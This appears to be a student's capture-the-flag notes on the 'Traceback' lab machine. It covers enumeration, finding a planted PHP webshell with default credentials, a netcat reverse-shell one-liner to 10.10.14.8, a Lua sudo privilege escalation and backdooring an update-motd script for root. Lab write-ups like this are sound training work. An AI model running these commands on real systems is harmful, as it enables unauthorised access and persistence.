

# <span style="color:#FFFF66">Machine #17 Traceback</span>  


## <span style="color: #FFFF66">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

  ```cmd
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
  ```  

* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

* I just have getting the root left.
  ```lua
  #\!/usr/local/bin/lua
  os.execute("/bin/bash");
  ```

  ```
  /etc/update-motd.d/50-motd-news
  /etc/update-motd.d/10-help-text
  /etc/update-motd.d/91-release-upgrade
  /etc/update-motd.d/00-header
  /etc/update-motd.d/80-esm
  ```  

  ```cmd
  ssh -i id_ed25519 sysadmin@10.10.14.8
  ```

* I finally copied a rev shell into the "header" file because it was the only file that had proof that it's code is being executed.
<br/><br/>


## <span style="color: #FFFF66">How Did I Solve the Machine 😎🥳 


<br/><br/>


## <span style="color: #FFFF66">Where I Got Stuck?😡😧  

* I kept using the wrong wordlist to bruteforce the directories using `gobuster`.
* Turns out there is a wordlist in SecLists exactly to look for web shells and I found some login page hidden by the hacker.

<br/><br/>


## <span style="color: #FFFF66">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>


## <span style="color: #FFFF66">Writeups ✍🏽📓   


<br/><br/>


<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->